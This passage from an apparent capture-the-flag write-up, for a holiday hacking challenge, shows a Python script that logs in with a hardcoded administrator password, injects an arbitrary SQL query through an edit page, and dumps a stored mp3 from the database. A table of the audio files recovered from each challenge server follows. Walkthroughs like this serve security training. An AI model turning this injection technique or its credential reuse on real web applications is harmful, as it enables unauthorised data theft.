 This shows the actual data for the audio file is saved in the database in the `audio` table in the `mp3` column. So we can return to edit page and get it to dump the `mp3` column so that is encoded so we can download it. I scripted up a python program to login into the website, edit a known report, and download the audio file.

```python
import requests
from bs4 import BeautifulSoup

url = "https://analytics.northpolewonderland.com/"

admindata = {"username":"administrator","password":"KeepWatchingTheSkies"}

s = requests.Session()
ra = s.post(url+'login.php',data=admindata)
cookies = s.cookies

report = "9b0d08d6-cd77-47ed-8b2d-f81863cc525b"

pwn = "select filename, hex(mp3) from audio where username='administrator'"
result = s.get(url+'edit.php',cookies=cookies, params={'id':report, 'name':pwn, 'query':pwn})
view = s.get(url+'view.php', cookies=cookies, params={"id":report})

soup = BeautifulSoup(view.text)
filename, mp3 = [e.text for e in soup.find_all('td')]

with open(filename,'wb') as output:
    output.write(mp3.decode('hex'))

print "Audio file saved as {} with size {} kilobytes".format(filename,
        len(mp3)/2000)
```

The output is below:

```
Audio file saved as discombobulatedaudio7.mp3 with size 220 kilobytes
```

So the name of the final audio file is: `discombobulatedaudio7.mp3`


#### So the answers to the questions for part four...

The name of the files from each server are shown in the table below

* A7: The names of the files from each server as follows:

|Server|    File Name| Download |
|-------|:------------:|:------:|
|APK File    |discombobulatedaudio1.mp3|[link](/assets/mp3/discombobulatedaudio1.mp3)|
|Analytics Pre    |discombobulatedaudio2.mp3|[link](/assets/mp3/discombobulatedaudio2.mp3)|
|Dungeon    |discombobulatedaudio3.mp3|[link](/assets/mp3/discombobulatedaudio3.mp3)|
|Debug    |debug-20161224235959-0.mp3|[link](/assets/mp3/discombobulatedaudio4.mp3)|
|Banner    |discombobulatedaudio5.mp3|[link](/assets/mp3/discombobulatedaudio5.mp3)|
|Exception    |discombobulated-audio-6-XyzE3N9YqKNH.mp3|[link](/assets/mp3/discombobulatedaudio6.mp3)|
|Analytics Post    |discombobulatedaudio7.mp3|[link](/assets/mp3/discombobulatedaudio7.mp3)|


[no]: yes